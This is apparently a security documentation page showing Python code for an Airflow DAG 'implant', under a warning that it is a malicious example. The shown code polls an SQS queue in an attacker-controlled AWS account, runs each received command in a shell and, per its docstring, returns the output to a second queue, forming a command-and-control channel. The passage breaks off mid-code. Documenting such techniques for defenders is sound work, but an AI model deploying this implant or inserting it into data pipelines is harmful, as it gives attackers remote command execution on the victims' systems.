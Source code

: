 ### Implant DAG Code

!!! danger "Malicious Code Example"
    This code demonstrates how an attacker could establish a C2 channel. **Do not deploy this code in production environments.**

```python
import base64
import json
import subprocess
from datetime import datetime, timedelta

import boto3
from airflow.models.dag import DAG
from airflow.operators.python import PythonOperator

# --- Attacker-Controlled C2 Parameters ---
ATTACKER_AWS_ACCOUNT_ID = "123456789012"
ATTACKER_REGION = "us-east-1"
COMMAND_QUEUE_NAME = "airflow-celery-c2-commands"
RESULTS_QUEUE_NAME = "airflow-celery-c2-results"
# -----------------------------------------

def c2_implant_task():
    """
    This function is the C2 implant. It runs periodically.
    1. Polls an SQS queue for a command.
    2. Executes the command in a subprocess.
    3. Sends the output (stdout/stderr) back to another SQS queue.
    """
    sqs_client = boto3.client("sqs", region_name=ATTACKER_REGION)
    command_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{COMMAND_QUEUE_NAME}"
    results_queue_url = f"https://sqs.{ATTACKER_REGION}.amazonaws.com/{ATTACKER_AWS_ACCOUNT_ID}/{RESULTS_QUEUE_NAME}"

    print(f"C2 Implant: Polling for commands from {command_queue_url}")

    try:
        # 1. Poll for a command message
        response = sqs_client.receive_message(
            QueueUrl=command_queue_url,
            MaxNumberOfMessages=1,
            WaitTimeSeconds=10 # Use long polling
        )

        if "Messages" not in response:
            print("C2 Implant: No new commands found.")
            return

        message = response["Messages"][0]
        receipt_handle = message["ReceiptHandle"]
        command = message["Body"]
        print(f"C2 Implant: Received command: '{command}'")

        # 2. Execute the command
        try:
            process = subprocess.run(
                command,
                shell=True,
                stdout=subprocess.PIPE,
                stderr=subprocess.PIPE,
                text=True,
                timeout=60
```